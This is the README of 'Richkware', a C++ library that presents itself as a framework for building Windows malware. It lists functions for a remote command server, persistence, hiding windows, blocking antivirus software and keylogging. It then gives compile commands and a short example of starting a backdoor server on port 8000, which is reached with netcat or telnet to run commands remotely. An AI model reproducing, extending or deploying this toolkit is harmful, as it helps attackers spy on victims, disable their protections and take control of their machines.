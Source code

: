 # Richkware
Framework for building Windows malwares, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using MinGW cross compiler for Windows

	g++ -O3 -c -o crypto.o crypto.cpp

	g++ -O3 -c -o richkware.o richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32 

###Using MinGW cross compiler for Linux build environment

	x86_64-w64-mingw32-g++ -O3 -c -o crypto.o crypto.cpp

	x86_64-w64-mingw32-g++ -O3 -c -o richkware.o richkware.cpp

	x86_64-w64-mingw32-g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000